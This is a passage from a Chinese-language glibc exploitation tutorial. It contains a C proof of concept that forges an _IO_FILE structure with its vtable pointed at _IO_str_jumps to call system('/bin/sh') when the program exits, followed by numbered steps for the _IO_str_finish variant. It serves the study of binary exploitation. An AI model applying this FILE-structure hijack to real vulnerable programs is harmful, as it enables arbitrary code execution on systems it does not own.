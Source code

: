 __示例:__

```C
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <stddef.h>

char *shell = "/bin/sh";
size_t str_jumps = ((size_t)&stdin) - (0x3EC850 - 0x3e8360);

int main()
{
    struct _IO_FILE *io = malloc(0x100);

    *(size_t *)(((char *)io) + 0x0) = 0;
    *(size_t *)(((char *)io) + 0x20) = 0;
    *(size_t *)(((char *)io) + 0x28) = (((size_t)shell) - 100) / 2 + 1;
    *(size_t *)(((char *)io) + 0x38) = 0;
    *(size_t *)(((char *)io) + 0x40) = (((size_t)shell) - 100) / 2;
    *(size_t *)(((char *)io) + 0xC0) = 0;
    *(size_t *)(((char *)io) + 0xD8) = str_jumps;
    *(size_t *)(((char *)io) + 0xE0) = (size_t)&system;

    stderr->_chain = io;

    exit(-1);
    return 0;
}
```

### _IO_str_jumps -> finish的利用

```C
void _IO_str_finish(_IO_FILE *fp, int dummy)
{
    if (fp->_IO_buf_base && !(fp->_flags & _IO_USER_BUF))
        (((_IO_strfile *)fp)->_s._free_buffer)(fp->_IO_buf_base);
    // ...
}
```

__利用思路:__

1. 伪造`fake_IO_FILE`
2. `fake_IO_FILE->_flags = 0`
3. `fake_IO_FILE->_IO_write_base = 0`
4. `fake_IO_FILE->_IO_write_ptr = 1`
5. `fake_IO_FILE->_IO_buf_base = /bin/sh`
6. `fake_IO_FILE->_mode = 0`
7. `fake_IO_FILE + 0xD8 = &(_IO_str_jumps-0x8)`(将`vtable`设置成`_IO_str_jumps - 8`)
8. `fake_IO_FILE + 0xE8 = system`
9. 将`fake_IO_FILE`放入`_chain`中
